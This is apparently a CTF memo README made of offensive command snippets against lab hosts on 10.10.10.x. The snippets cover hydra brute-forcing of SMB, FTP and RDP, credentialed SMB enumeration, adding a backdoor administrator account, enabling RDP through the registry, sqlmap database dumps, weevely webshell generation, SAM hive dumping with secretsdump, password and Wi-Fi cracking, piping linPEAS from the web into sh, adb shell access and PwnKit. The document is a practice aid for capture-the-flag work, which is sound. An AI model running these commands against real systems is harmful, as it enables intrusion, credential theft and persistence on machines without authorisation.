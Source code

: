# CTF Memo
## _nmap_
網路設備及服務掃描
```sh
sudo nmap 10.10.10.16  //1000 port
sudo nmap 10.10.10.16 -p-  //1-65535 port
sudo nmap 10.10.10.16 -sU -p53,139,161,1900,5353  //UDP port
sudo nmap 10.10.10.16 -p80 --reason  //REASON
sudo nmap 10.10.10.16 -p80 --open  //display only open port ip
sudo nmap 10.10.10.16 -O  //OS
sudo nmap 10.10.10.16 -sV  //VERSION
sudo nmap 10.10.10.16 -sVC -p445,3389  //VERSION + NSE
sudo nmap 10.10.10.* -sU -p161 --open  //SNMP
sudo nmap 10.10.10.16 -sU -p161 -sC  //使用 NSE 預設腳本
sudo nmap 10.10.10.16 -sU -p161 --script snmp-win32-users  //user account

```
## _snmp-check_
SNMP 設備列舉
```sh
sudo snmp-check 10.10.10.16
```
## _nbtscan_
NetBOIS 掃描
```sh
sudo nbtscan 10.10.10.1-254
```
## _hydra_
破密工具
```sh
hydra -L win32-users.txt -P /usr/share/wordlists/nmap.lst smb://10.10.10.16
hydra -L win32-users.txt -P /usr/share/wordlists/nmap.lst ftp://10.10.10.16
hydra -l king -P /usr/share/wordlists/nmap.lst rdp://10.10.10.16
```
## _enum4linux_

列舉Windows訊息
```sh
sudo enum4linux -u king -p 'slave' -a 10.10.10.16
```
## _crackmapexec_
網域滲透工具
python3 -m pip install --upgrade impacket  (更新)
```sh
sudo crackmapexec smb 10.10.10.16 -u king -p 'slave' --shares
```
## _net_

```sh
net use \\10.10.10.16 slave /u:king
net view \\10.10.10.16
net user queen /add
net users
net localgroup Administrator queen /add
net localgroup Administrators
```
## _reg add_

新增機碼
```sh
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
## _netstat_
網路狀態
```sh
netstat -an | findstr :3389
```
## _sqlmap_
SQL檢測注入工具
```sh
sudo sqlmap -u "https://url" --cookie="<COOKIE>" --dbs
sudo sqlmap -u "https://url" --cookie="<COOKIE>" -D DB_name --tables
sudo sqlmap -u "https://url" --cookie="<COOKIE>" -D DB_name -T Table_name --columns --technique=B
sudo sqlmap -u "https://url" --cookie="<COOKIE>" -D DB_name -T Table_name --dump --technique=B
sudo sqlmap -u "https://url" --forms --crawl=2 -dbs
```
## _weevely_
Webshell
```sh
weevely generate king backdoor.php  //生成
weevely http://ip:port/backdoor.php king  //連接
```
## _wpscan_
WordPress安全性掃描工具
```sh
wpscan --url http://url -e u  //列舉使用者
wpscan --url http://url -P /usr/share/wordlists/nmap.lst  //破密
```
## _pwdump_

```sh
reg save hklm\sam pwdump\sam
reg save hklm\system pwdump\system
impacket-secretsdump LOCAL -system pwdump/system -sam pwdump/sam -outputfile pwdump/10.10.10.10
ophcrack (執行程式破密)
```
## _john_
破密工具
```sh
john secret.txt --format=raw-md5
```
## _aircrack_

```sh
aircrack-ng WEPooo.cap
aircrack-ng WPA2ooo.cap -w /usr/share/wordlists/nmap.lst
```
## _linPEAS_

```sh
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
## _Android_

```sh
nmap -p5555 10.10.10.* --open
sudo apt install -y adb
adb connect 10.10.10.20:5555
adb devices
adb shell
adb pull /system/app/cindy.apk E:\Cindy\  //get file
```
## _impacket upgrade_

```sh
python3 -m pip install --upgrade impacket
```
## _gzip_

```sh
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```
## _snow_

```sh
snow -C -p pass -m "message" text1.txt text2.txt
snow -C -p pass text2.txt text3.txt
```
## _mount_

```sh
apt install nfs-common
showmount -e 10.10.10.20
mount -t nfs 10.10.10.20:/home /mnt/nfs
mount -t cifs //10.10.10.20/C$ /mnt/smb -o username=king,password=slave
```
## _smbclient_

```sh
smbclient -U "kingdom\king"  //10.10.10.20/C$
```
## _others_

```sh
njRAT         //trajon
SNOW          //space
OpenStego     //picture
HashMyFiles
VeraCrypt
CrypTool
ophcrack
dir xxx.xxx /s/a/p   //find files
visudo
git clone https://github.com/ly4k/PwnKit.git    //CVE-2021-4034
```
## License

MIT
